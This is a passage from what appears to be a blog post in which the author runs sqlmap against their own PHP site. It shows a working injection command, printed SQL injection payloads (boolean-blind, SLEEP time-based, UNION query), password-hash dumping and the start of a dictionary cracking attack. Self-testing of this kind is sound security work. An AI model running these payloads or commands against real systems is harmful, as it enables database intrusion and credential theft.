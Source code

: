I checked the logged data '/root/.sqlmap/output/bimpra.tk':
{% highlight %}
root@ip-172-31-32-255:~/.sqlmap/output/bimpra.tk# ll
total 24
drwxr-xr-x 2 root root 4096 Dec  3 07:40 ./
drwxr-xr-x 4 root root 4096 Dec  3 07:14 ../
-rw-r--r-- 1 root root  958 Dec  3 07:40 log
-rw-r--r-- 1 root root 5120 Dec  3 07:40 session.sqlite
-rw-r--r-- 1 root root   36 Dec  3 07:40 target.txt
{% endhighlight %}

Secondly, I run other test, I must admit it exposed the password of my root mysql user:
{% highlight %}
root@ip-172-31-32-255:/var/www/html/sqlmap# python sqlmap.py -u "http://bimpra.tk/test.php?id=0" -z "ign,bat" --passwords
[09:27:03] [WARNING] detected ambiguity (mnemonic 'ign' can be resolved to: 'ignore-401', 'ignore-proxy'). Resolved to shortest of those ('ignore-401')
         _
 ___ ___| |_____ ___ ___  {1.0-dev-nongit-201512030967}
|_ -| . | |     | .'| . |
|___|_  |_|_|_|_|__,|  _|
      |_|           |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 09:27:03

[09:27:03] [INFO] resuming back-end DBMS 'mysql' 
[09:27:03] [INFO] testing connection to the target URL
[09:27:03] [INFO] checking if the target is protected by some kind of WAF/IPS/IDS
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=0 AND 4390=4390

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (SELECT)
    Payload: id=0 AND (SELECT * FROM (SELECT(SLEEP(5)))qsxk)

    Type: UNION query
    Title: Generic UNION query (NULL) - 12 columns
    Payload: id=0 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x7176717071,0x47706e7344436a7a4d624171784b474d7354745867564f6d4e7a676a52416550696d5979794e4e58,0x7170707171),NULL,NULL-- -
---
[09:27:03] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.7, PHP 5.5.9
back-end DBMS: MySQL 5
[09:27:03] [INFO] fetching database users password hashes
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] N
do you want to perform a dictionary-based attack against retrieved password hashes? [Y/n/q] Y
[09:27:03] [INFO] using hash method 'mysql_passwd'
what dictionary do you want to use?
[1] default dictionary file '/var/www/html/sqlmap/txt/wordlist.zip' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 1
[09:27:03] [INFO] using default dictionary